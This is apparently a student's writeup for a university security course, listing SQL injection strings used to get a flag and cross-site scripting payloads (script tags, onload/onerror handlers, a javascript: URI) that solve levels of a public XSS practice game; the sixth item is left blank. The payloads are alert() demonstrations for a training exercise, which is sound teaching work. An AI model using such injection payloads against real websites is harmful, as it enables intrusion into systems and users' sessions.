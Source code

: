 # Crypto II Writeup

Name: Adhithya Kannan
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Adhithya Kannan

## Assignment Writeup

### Part 1 (40 Pts)


> or 1-- -' or 1 or '1"or 1 or"
> code below is the sql injection, above is actual sql code
> || 0x50-- -' || 0x50 || '0x50"|| 0x50 ||"

CMSC389R-{y0u_ar3_th3_SQ1_ninj@}

### Part 2 (60 Pts)

1) used script tag <script>alert()</script>
2) used img tag <img src="https://xss-game.appspot.com/static/level2_icon.png" onload="alert()"/>
3)used the on error funcion and created an error for it to load on
	https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
4)created the alert function within backwards parenthesis
	https://xss-game.appspot.com/level4/frametimer=');alert('xss
5) changed confirm to next=javascript:alert() and then typed in email
	https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
6)
